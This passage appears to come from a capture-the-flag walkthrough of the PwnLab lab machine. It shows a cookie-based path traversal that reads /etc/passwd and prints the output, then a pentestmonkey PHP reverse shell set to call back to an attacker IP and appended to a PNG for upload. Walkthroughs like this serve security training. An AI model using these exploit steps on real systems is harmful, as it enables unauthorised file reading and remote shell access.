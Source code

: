 We can verify that it is possible including any file through cookies header.

```console
root@kali:~$ curl --cookie 'lang=../../../../etc/passwd' 192.168.179.176
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
Debian-exim:x:104:109::/var/spool/exim4:/bin/false
messagebus:x:105:110::/var/run/dbus:/bin/false
statd:x:106:65534::/var/lib/nfs:/bin/false
john:x:1000:1000:,,,:/home/john:/bin/bash
kent:x:1001:1001:,,,:/home/kent:/bin/bash
mike:x:1002:1002:,,,:/home/mike:/bin/bash
kane:x:1003:1003:,,,:/home/kane:/bin/bash
mysql:x:107:113:MySQL Server,,,:/nonexistent:/bin/false
...
```

### File Upload

We copy the pentestmonkey reverse shell to our current directory, change the IP address and port and attach the reverse shell to an image.

```console
root@kali:~$ cp /usr/share/webshells/php/php-reverse-shell.php shell.php
root@kali:~$ sed -i 's/127.0.0.1/192.168.179.1/;s/1234/443/' shell.php 
root@kali:~$ cat shell.php >> tohru.png 
```

Then we upload the image.

![](/assets/images/pwnlab/screenshot-5.png)
